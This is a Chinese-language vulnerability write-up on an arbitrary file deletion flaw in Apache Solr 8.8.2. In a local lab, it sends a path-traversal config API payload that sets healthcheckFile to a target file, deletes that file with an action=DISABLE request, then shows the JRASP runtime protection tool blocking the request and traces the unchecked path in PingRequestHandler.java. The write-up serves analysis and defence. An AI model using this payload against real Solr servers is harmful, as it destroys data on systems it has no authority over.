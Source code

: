 # Apache Solr 任意文件删除

## 漏洞简介
Apache Solr 存在任意文件删除漏洞，在目前的最新版本(8.8.2)中仍然未被修复，漏洞的根本成因是函数 Files.deleteIfExists()对要删除的文件名并未做校验。同时 Apache Solr Config Api 对外开放，导致任意用户可修改配置，造成危害。

## 环境搭建(mac-os环境)
#### 1、下载 [Apache Solr 8.8.2](http://archive.apache.org/dist/lucene/solr/8.8.2/) 的二进制文件和源码文件，方便进行调试。

![img.png](../.vuepress/public/images/case/ApacheSolr/apachae-solr-download.png)

#### 2、进入bin目录下执行

linux 环境执行
```shell
solr -e dih  
```
#### 3、 访问 http://IP:8983/solr/#/

[我在本地环境启动了solr](http://localhost:8983/solr/#/)

![solr-startup.png](../.vuepress/public/images/case/ApacheSolr/solr-startup.png)


## 漏洞复现
#### 1、 新建一个文件
```shell
touch /tmp/solr.txt
```
#### 2、向任意 solr core 的 config API 发送一个 POST 包
例如 `/solr/db/config` 或者 `/solr/solr/config` 之类的

HTTP body
```json
{
  "add-requesthandler": {
    "name": "/test2021",   
    "class":"solr.PingRequestHandler",
    "healthcheckFile":"../../../../../../../../../../../../../tmp/solr.txt"
  }
}
```

完整的请求如下：

![img.png](../.vuepress/public/images/case/ApacheSolr/solr-requesthandler.png)

检查是否创建成功

![img.png](../.vuepress/public/images/case/ApacheSolr/postman-result.png)

#### 4、发送请求
再向core包的 config API发送一个GET请求, 参数为action=DISABLE 
例如：/solr/db/test2021?action=DISABLE

![img.png](../.vuepress/public/images/case/ApacheSolr/file-delete.png)

#### 5、查看/tmp/solr.txt 文件
文件被删除

![img.png](../.vuepress/public/images/case/ApacheSolr/solr_txt.png)


#### 6、开启 JRASP 防护，重复上面的步骤1~5

请求被阻断，文件删除失败

![img.png](../.vuepress/public/images/case/ApacheSolr/rasp_block_file_delete.png)

#### 7、JRASP 拦截到的参数
```json
{
	"method": "GET",
	"remoteHost": "[0:0:0:0:0:0:0:1]",
	"headerNames": [],
	"filePath": "/Users/xxxx/Downloads/solr/example/example-DIH/solr/db/data/../../../../../../../../../../../../../tmp/solr.txt",
	"module": "com.rasp.module.file.FileDeletModule",
	"requestURI": "/solr/db/test2021",
	"protocol": "HTTP/1.1",
	"enableBlock": true,
	"attack": true,
	"stackTrace": ["java.lang.Thread.getStackTrace(Thread.java:1559)", "com.rasp.module.common.StackTrace.getStackTrace(StackTrace.java:7)", "com.rasp.module.file.FileDeletModule$2.before(FileDeletModule.java:137)", "com.alibaba.jvm.sandbox.api.listener.ext.AdviceAdapterListener.switchEvent(AdviceAdapterListener.java:99)", "com.alibaba.jvm.sandbox.api.listener.ext.AdviceAdapterListener.onEvent(AdviceAdapterListener.java:39)", "com.alibaba.jvm.sandbox.core.enhance.weaver.EventListenerHandler.handleEvent(EventListenerHandler.java:117)", "com.alibaba.jvm.sandbox.core.enhance.weaver.EventListenerHandler.handleOnBefore(EventListenerHandler.java:353)", "java.com.alibaba.jvm.sandbox.spy.Spy.spyMethodOnBefore(Spy.java:164)", "java.nio.file.Files.deleteIfExists(Files.java)", "org.apache.solr.handler.PingRequestHandler.handleEnable(PingRequestHandler.java:319)", "org.apache.solr.handler.PingRequestHandler.handleRequestBody(PingRequestHandler.java:220)", "org.apache.solr.handler.RequestHandlerBase.handleRequest(RequestHandlerBase.java:216)", "org.apache.solr.core.SolrCore.execute(SolrCore.java:2646)", "org.apache.solr.servlet.HttpSolrCall.execute(HttpSolrCall.java:794)", "org.apache.solr.servlet.HttpSolrCall.call(HttpSolrCall.java:567)", "org.apache.solr.servlet.SolrDispatchFilter.doFilter(SolrDispatchFilter.java:427)", "org.apache.solr.servlet.SolrDispatchFilter.doFilter(SolrDispatchFilter.java:357)", "org.eclipse.jetty.servlet.FilterHolder.doFilter(FilterHolder.java:201)", "org.eclipse.jetty.servlet.ServletHandler$Chain.doFilter(ServletHandler.java:1601)", "org.eclipse.jetty.servlet.ServletHandler.doHandle(ServletHandler.java:548)", "org.eclipse.jetty.server.handler.ScopedHandler.handle(ScopedHandler.java:143)", "org.eclipse.jetty.security.SecurityHandler.handle(SecurityHandler.java:602)", "org.eclipse.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:127)", "org.eclipse.jetty.server.handler.ScopedHandler.nextHandle(ScopedHandler.java:235)", "org.eclipse.jetty.server.session.SessionHandler.doHandle(SessionHandler.java:1612)", "org.eclipse.jetty.server.handler.ScopedHandler.nextHandle(ScopedHandler.java:233)", "org.eclipse.jetty.server.handler.ContextHandler.doHandle(ContextHandler.java:1434)", "org.eclipse.jetty.server.handler.ScopedHandler.nextScope(ScopedHandler.java:188)", "org.eclipse.jetty.servlet.ServletHandler.doScope(ServletHandler.java:501)", "org.eclipse.jetty.server.session.SessionHandler.doScope(SessionHandler.java:1582)", "org.eclipse.jetty.server.handler.ScopedHandler.nextScope(ScopedHandler.java:186)", "org.eclipse.jetty.server.handler.ContextHandler.doScope(ContextHandler.java:1349)", "org.eclipse.jetty.server.handler.ScopedHandler.handle(ScopedHandler.java:141)", "org.eclipse.jetty.server.handler.ContextHandlerCollection.handle(ContextHandlerCollection.java:191)", "org.eclipse.jetty.server.handler.InetAccessHandler.handle(InetAccessHandler.java:177)", "org.eclipse.jetty.server.handler.HandlerCollection.handle(HandlerCollection.java:146)", "org.eclipse.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:127)", "org.eclipse.jetty.rewrite.handler.RewriteHandler.handle(RewriteHandler.java:322)", "org.eclipse.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:127)", "org.eclipse.jetty.server.Server.handle(Server.java:516)", "org.eclipse.jetty.server.HttpChannel.lambda$handle$1(HttpChannel.java:383)", "org.eclipse.jetty.server.HttpChannel.dispatch(HttpChannel.java:556)", "org.eclipse.jetty.server.HttpChannel.handle(HttpChannel.java:375)", "org.eclipse.jetty.server.HttpConnection.onFillable(HttpConnection.java:273)", "org.eclipse.jetty.io.AbstractConnection$ReadCallback.succeeded(AbstractConnection.java:311)", "org.eclipse.jetty.io.FillInterest.fillable(FillInterest.java:105)", "org.eclipse.jetty.io.ChannelEndPoint$1.run(ChannelEndPoint.java:104)", "org.eclipse.jetty.util.thread.strategy.EatWhatYouKill.runTask(EatWhatYouKill.java:336)", "org.eclipse.jetty.util.thread.strategy.EatWhatYouKill.doProduce(EatWhatYouKill.java:313)", "org.eclipse.jetty.util.thread.strategy.EatWhatYouKill.tryProduce(EatWhatYouKill.java:171)", "org.eclipse.jetty.util.thread.strategy.EatWhatYouKill.produce(EatWhatYouKill.java:135)", "org.eclipse.jetty.util.thread.QueuedThreadPool.runJob(QueuedThreadPool.java:773)", "org.eclipse.jetty.util.thread.QueuedThreadPool$Runner.run(QueuedThreadPool.java:905)", "java.lang.Thread.run(Thread.java:748)"],
	"localAddr": "[0:0:0:0:0:0:0:1]",
	"parameterMap": {
		"action": ["DISABLE"]
	},
	"remoteAddr": "[0:0:0:0:0:0:0:1]"
}
```


## 漏洞源码分析
 与solr 相关的调用栈如下
![solr_stack_trace.png](../.vuepress/public/images/case/ApacheSolr/solr_stack_trace.png)

结合调用栈和请求参数我们很容易定位漏洞在源码中的位置

找到java文件 `PingRequestHandler.java` 定位到319行

![img.png](../.vuepress/public/images/case/ApacheSolr/PingRequestHandler_java_319.png)

原来是删除文件时没有校验文件的路径。

## 检测拦截手段
    
JRASP 已经支持任意文件删除漏洞的检测与阻断


